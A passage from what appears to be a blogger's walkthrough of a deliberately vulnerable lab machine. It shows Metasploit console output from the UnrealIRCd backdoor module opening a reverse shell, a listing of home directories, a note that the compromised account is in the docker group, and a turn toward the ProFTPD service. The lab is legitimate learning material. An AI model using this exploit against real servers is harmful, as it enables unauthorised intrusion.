 I am not a pentester by trade, or is it something that I do very often... but I thought this was a little simple! I am guessing that the single available exploit for UnrealIRCd made this a little too easy. Anyway, after running the exploit, remote access was gained:

{% highlight bash %}
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > run

[*] Started reverse TCP handler on 192.168.19.10:2345 
[*] 192.168.19.20:6697 - Connected to 192.168.19.20:6697...
    :irc.TestIRC.net NOTICE AUTH :*** Looking up your hostname...
[*] 192.168.19.20:6697 - Sending backdoor command...
[*] Command shell session 1 opened (192.168.19.10:2345 -> 192.168.19.20:49971) at 2018-07-07 22:47:02 -0400
{% endhighlight %}

Running the `whoami` command indicated that I had gained remote access using the `boba_fett` account. I felt like a bounty hunter! I thought it was interesting that I couldn't traverse the file system using this exploit, rather I was stuck in the `/opt/unrealircd/Unreal3.2` directory, but could navigate the file system by listing directories seeing what was around. I though it strange that after listing the `/home` folder, and the user who was in the group names _users_ had read and execute permission on all home directories.

{% highlight bash %}
ls -la /home/
total 72
drwxr-xr-x 18 root             root    4096 Jul  2 21:26 .
drwxr-xr-x 24 root             root    4096 Jul  2 22:26 ..
drwxr-xr-x  3 anakin_skywalker users   4096 Jul  2 21:47 anakin_skywalker
drwxr-xr-x  3 artoo_detoo      users   4096 Jul  2 21:47 artoo_detoo
drwxr-xr-x  2 ben_kenobi       users   4096 Jul  2 21:26 ben_kenobi
drwxr-xr-x  2 boba_fett        users   4096 Jul  2 21:26 boba_fett
drwxr-xr-x  2 c_three_pio      users   4096 Jul  2 21:26 c_three_pio
drwxr-xr-x  2 chewbacca        users   4096 Jul  2 21:26 chewbacca
drwxr-xr-x  2 darth_vader      users   4096 Jul  2 21:26 darth_vader
drwxr-xr-x  2 greedo           users   4096 Jul  2 21:26 greedo
drwxr-xr-x  2 han_solo         users   4096 Jul  2 21:26 han_solo
drwxr-xr-x  2 jabba_hutt       users   4096 Jul  2 21:26 jabba_hutt
drwxr-xr-x  2 jarjar_binks     users   4096 Jul  2 21:26 jarjar_binks
drwxr-xr-x  4 kylo_ren         users   4096 Jul  2 21:47 kylo_ren
drwxr-xr-x  2 lando_calrissian users   4096 Jul  2 21:26 lando_calrissian
drwxr-xr-x  3 leia_organa      users   4096 Jul  7 22:24 leia_organa
drwxr-xr-x  2 luke_skywalker   users   4096 Jul  2 21:26 luke_skywalker
drwxr-xr-x  5 vagrant          vagrant 4096 Jul  3 00:02 vagrant
{% endhighlight %}

Unfortunately, `sudo` or `root` access was not possible as this exploit gained access using the `boba_fett` account, who was not in the `sudo` group (as indicated by the `groups` command). However, `boba_fett` was part of the `docker` group... interesting! Moving on!

## Port 21: ProFTPD version 1.3.5

Looking back over the output from the `services` command in the `msfconsole`, the next prospect I choose was the FTP server running port 21.
